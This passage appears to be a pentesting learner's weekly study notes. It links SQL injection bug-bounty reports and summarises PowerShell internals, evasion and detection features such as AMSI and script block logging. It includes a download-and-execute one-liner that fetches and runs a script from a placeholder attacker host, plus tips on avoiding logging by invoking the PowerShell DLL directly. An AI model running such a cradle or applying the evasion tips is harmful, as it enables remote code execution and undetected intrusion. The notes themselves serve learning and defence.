 8. [https://hackerone.com/reports/1525200](https://hackerone.com/reports/1525200) This report was about CVE-2021-38159 which was SQLi in MOVEit Transfer. Detailed report - [https://blog.viettelcybersecurity.com/moveit-transfer-cve/](https://blog.viettelcybersecurity.com/moveit-transfer-cve/)
9. [https://hackerone.com/reports/2051931](https://hackerone.com/reports/2051931) This report reveals a Blind SQLi on an api in in-drive.
10. [https://hackerone.com/reports/273946](https://hackerone.com/reports/273946) Again, last but the best of all reports, this was a vulnerability in a WordPress plugin which the researcher exploited to dump the credentials. This one was my favorite of all 4 hacktivity reports and I recommend everyone should read it.

Besides these I also read about OAST - [https://portswigger.net/burp/application-security-testing/oast](https://portswigger.net/burp/application-security-testing/oast)
I don't think I understand this totally as it includes usage of collaborator which is a pro feature but I have a basic idea of how out of band testing works.

### AD 

I already have a decent idea about Windows and AD from CPTS. However, I believe I need more practice and knowledge. Not just in terms of exploitation, but I also need to learn evasion to become a successful red teamer/pentester.

I am reading this blog - [PowerShell ♥ the Blue Team](https://devblogs.microsoft.com/powershell/powershell-the-blue-team/) and I am not yet through it right now.

Besides this, I learnt the following things this week which I found to be quite interesting. 

- PowerShell Internals

a. PowerShell's real engine is `System.Management.Automation.dll`, not `powershell.exe`.

b. `powershell.exe` is just the CLI interface that loads the DLL and starts a REPL (read-eval-print loop).

c. This separation allows attackers to bypass detections by directly invoking the DLL from C# or other .NET code.

d. Scripts can be executed in-memory, skipping `powershell.exe` entirely, which helps avoid logging.

e. `pwsh` on macOS and linux call the powershell core which is a platform agnostic implementation of powershell.

- Download-Execute Cradles

A Download-Execute Cradle is a one-liner that downloads a remote PowerShell script and executes it directly in memory using `iex`

Example:

  ```powershell
  iex (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')
  ```
 `iex` stands for `Invoke-Expression` - it executes strings as code.
 The full line is the cradle - `iex` is the executor within it.


- PowerShell Detection Mechanisms

| Feature                               | Function                                                                     |
| ------------------------------------- | ---------------------------------------------------------------------------- |
| System-Wide Transcription         | Logs full PowerShell input/output to text files                              |
| Script Block Logging              | Logs entire script blocks, including dynamically generated code              |
| AMSI (AntiMalware Scan Interface) | Sends code to Defender/EDR before execution                                  |
| CLM (Constrained Language Mode)   | Restricts PowerShell to safe, limited cmdlets - blocks reflection, .NET, COM |
